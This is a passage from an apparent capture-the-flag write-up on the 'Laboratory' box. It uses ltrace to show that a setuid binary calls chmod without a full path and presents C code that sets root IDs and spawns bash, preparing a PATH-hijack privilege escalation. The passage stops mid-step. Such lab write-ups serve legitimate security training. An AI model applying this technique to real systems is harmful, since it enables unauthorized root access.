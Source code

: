 One interesting note that’s unrelated to solving the box - the only binary on
the box from 2021 is `sudo`, which was likely patched for CVE-2021-3156).

### docker-security

I could pull this binary back and reverse it in Ghidra, but given this is an
easy-rated box, I’ll start with `ltrace` (which fortunately is installed on
this box):

    
    
    dexter@laboratory:~$ ltrace docker-security 
    setuid(0)                                                                               = -1
    setgid(0)                                                                               = -1
    system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                   = 256
    system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                   = 256
    +++ exited (status 0) +++
    

The binary is calling `system("chmod ...")`. The important part here is that
it isn’t using the full path to `chmod`. That is something I can exploit.

### Shell

I don’t see any tools to compile a binary on Laboratory, so I’ll work on my
VM. I’ll use this snippet of C code:

    
    
    #define _GNU_SOURCE
    #include <stdlib.h>
    #include <unistd.h>
    
    int main(void) {
        setresuid(0, 0, 0);
        system("/bin/bash");
    }
    

It simply sets the process privs to root, and then calls `bash`. I don’t
actually need the `setresuid` call, as `docker-security` actually calls
`setuid(0)` and `setgid(0)` before calling `chmod`. This is just handy
template I have around for cases like this, and many times a process will
actually lower it’s privileges before making a risky call (and the `setresuid`
fixes that for me).

I’ll compile this and copy it to Laboratory with `scp`:

    
    
